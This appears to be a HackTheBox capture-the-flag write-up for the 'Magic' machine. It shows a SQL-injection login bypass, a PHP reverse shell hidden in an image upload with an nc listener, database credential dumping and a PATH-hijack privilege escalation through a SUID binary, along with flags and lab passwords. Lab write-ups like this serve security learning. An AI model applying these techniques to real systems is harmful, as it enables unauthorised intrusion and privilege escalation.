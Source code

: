 # Magic

Author: Ewaël

**Magic** is a medium HackTheBox box by TRX.

`nmap -sC -sV -oN nmap 10.10.10.185 -v -A` shows ports 22 and 80 are open. Let's start with the website as usual:

![site](site.png)

There is a login page to upload images. I already think about how I'm going to upload a reverse shell.

![login](login.png)

A simple sql injection is enough to bypass the authentification: `' or ''=':' or ''='`

Now I need to upload a reverse shell hidden in an image. Let's start by understanding what is filtered in the file check. First of all I upload a basic `image.png` and, of course, it works. Changing the mime type on burp does not change anything, so I change it to `application/x-php`. Then I try changing `.png` to `.php` but it fails. Changing it again to `.php.png` makes it work again. But replacing the whole image content by php code fails.

Alright so I decide to remove the second half of the image, and it works. I continue to delete until it fails and I add my reverse shell after the necessary lines for the type check. This way I successfully upload my reverse shell configured with the correct IP:port.


![upload](upload.png)

Now I start `nc -lvnp 4444` and visit `/images/uploads/php-reverse-shell.php.png` to have a shell as `www-data`. I directly use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to have a proper environment and I start searching stuff for my privilege escalation.

## Privilege escalation

I find a very interesting file in `/var/www/Magic` named `db.php5`:

```php
...
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...
```

But I can't log via ssh as `theseus` because of my public key and `su theseus` does not work with this password. Thus I decide to use `mysqldump` to dump the database after seeing the file using those `db` terms.

```
mysqldump -piamkingtheseus -utheseus Magic
```

I find exactly what I need in a line of the output:

```sql
...
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
...
```

And this time `su theseus` works with the `Th3s3usW4sK1ng` password. I get the user flag:

`ee364b71e33c0c2c5abbeab350af2dba`

I can not use `sudo` as `theseus` so I decide to check the files with the root SUID:

```
find / -perm -u=s -type f 2>/dev/null
```

An unusual binary is returned in the list: `sysinfo`. The first time I ran this command I did not pay attention enough and started searching in `/media/floopy0` loosing one hour before coming back one this output. I decide to check how those informations about the system are printed, maybe there is a possible exploit if the program does not use `/bin/` before a call.

I move to `/tmp` to easily create files.

```
ltrace -o test sysinfo
```

First `cat test | grep system` does not return anything, but `cat test | grep popen` is very intersting:

```
popen("lshw -short", "r")                        = 0x559106a36280
popen("fdisk -l", "r")                           = 0x559106a36280
popen("cat /proc/cpuinfo", "r")                  = 0x559106a36280
popen("free -h", "r")                            = 0x559106a36280
```

There it is. Let's exploit this `cat` call.

```bash
echo "/bin/sh" > cat
chmod +x cat
export PATH=/tmp:${PATH}
```

Then I just use `sysinfo` and the program stops when it reaches the `cat` call allowing me to type commands. First time I did it I was surprised I could not see the output, but once I used `exit` it appeared. Thus using `less` I just print `/root/root.txt` and exit the shell:

![root](root.png)

`2724c7376307dfa9bc5d43579c5dea07`
